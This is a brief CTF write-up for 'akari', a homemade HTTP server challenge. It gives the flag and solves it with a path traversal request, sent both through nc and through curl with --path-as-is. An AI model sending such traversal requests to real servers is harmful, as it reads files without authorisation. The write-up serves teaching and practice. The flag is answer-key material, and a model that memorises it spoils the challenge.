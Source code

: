 #+TITLE: akari
#+AUTHOR: calx

Assume host and port: nyx.istaroth.xyz 54321

* Challenge

** Source Code

[[https://github.com/null-calx/akari/tree/623b0f6c5716b37877f5d5eeeec928349a3154a4][akari]] (not public during CTF)

** Description

I tried making a http server yesterday. What do you guys think?

** Flag

~prism{../../Found_THE_f1ag/../..}~

* Solution

#+begin_example
  $ nc nyx.istaroth.xyz 54321
  GET ../flag SOMETHING


#+end_example

or as suggested by @ctfguy

#+begin_src sh
  curl http://nyx.istaroth.xyz:54321/../flag --path-as-is
#+end_src
